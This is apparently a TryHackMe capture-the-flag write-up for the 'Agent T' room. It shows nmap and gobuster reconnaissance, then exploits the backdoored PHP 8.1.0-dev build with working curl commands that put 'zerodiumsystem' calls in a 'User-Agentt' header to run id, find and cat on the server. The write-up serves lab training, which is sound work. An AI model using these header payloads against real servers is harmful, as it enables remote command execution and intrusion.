



#### **1. General Information**

**Agent T**

**Date:** 2026/05/22
**Plataform:** TryHackMe
**IP/DNS:** Agentt.thm

**Difficulty:** Easy

**Objective:**
- Obtain the user flag
-------------
#### 2. Recon

**Nmap**
	sudo nmap -sC -sV -sS -Pn -p1-9000 -oN nmap_log.txt agentt.thm

	Resultado
		PORT   STATE SERVICE VERSION  
		80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)  
		|_http-title:  Admin Dashboard

--------------------------
##### 3. **Enumeration**
Gobuster
	gobuster dir -u http://agentt.thm/ -w /usr/share/wordlists/dirb/common.txt -x \ php,js,txt,html --exclude-length 42131

	Result
		404.html
		blank.html
	
	

---------------------------------------
##### 4. **Hypothesis**

During enumeration, no significant attack surface was identified through directory brute forcing or manual inspection of the dashboard.
Based on the service fingerprinting results, the target was identified as running PHP 8.1.0-dev, a known vulnerable version containing a malicious backdoor that allows remote command execution via the "User-Agentt" HTTP header. 

##### **5. Validation**

I'll testing this before using any other external mechanism(exploit)

	**curl -H "User-Agentt: zerodiumsystem('id');" http://agentt.thm**
	

Remote Command Execution was successfully confirmed through manual payload injection in the HTTP header.
##### 6. Exploitation

curl -H "User-Agentt: zerodiumsystem('find / -name flag.txt 2>/dev/null');" http://agentt.thm | head

curl -H "User-Agentt: zerodiumsystem('cat /flag.txt');" http://agentt.thm | head

